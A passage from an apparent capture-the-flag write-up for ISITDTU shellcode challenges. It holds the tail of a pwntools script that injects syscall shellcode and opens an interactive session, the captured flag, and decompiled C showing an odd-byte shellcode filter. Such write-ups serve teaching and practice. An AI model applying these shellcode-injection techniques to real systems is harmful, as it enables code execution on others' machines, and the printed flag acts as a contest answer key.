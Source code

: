 ```py
addq [rsi+0x8], 0x18
movq [rsi+0x10], 0x10000
add rsi, 0x8
mov r10, 0
mov r8, 0
mov r9, 0
syscall
mov rax, 0x148
mov rdi, 0x1
mov rdx, 0x1
mov r10, -1
mov r8, -1
syscall
'''
sc = asm(sc)
p.sendline(sc)
p.interactive()
```
{{< admonition note "flag" true >}}
`ISITDTU{061e8c26e3cf9bfad4e22879994048c8257b17d8}`
{{< /admonition >}}

## shellcode 2
### Analysis
Another Shellcoding Challenge. But this time we have to input shellcode with `odd` number.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  read_flag();
  addr = mmap((void *)0xAABBCC00LL, 0x1000uLL, 7, 34, -1, 0LL);
  if ( addr == (void *)-1LL )
  {
    perror("mmap");
    return 1;
  }
  else
  {
    puts(">");
    read(0, addr, 0x1000uLL);
    for ( i = 0; i <= 4095; ++i )
    {
      if ( (*((_BYTE *)addr + i) & 1) == 0 )
        *((_BYTE *)addr + i) = -112;
    }
    ((void (*)(void))addr)();
    return 0;
  }
}
```
It filter `even` number byte and make it to `\x90` byte which mean `nop` instruction. 
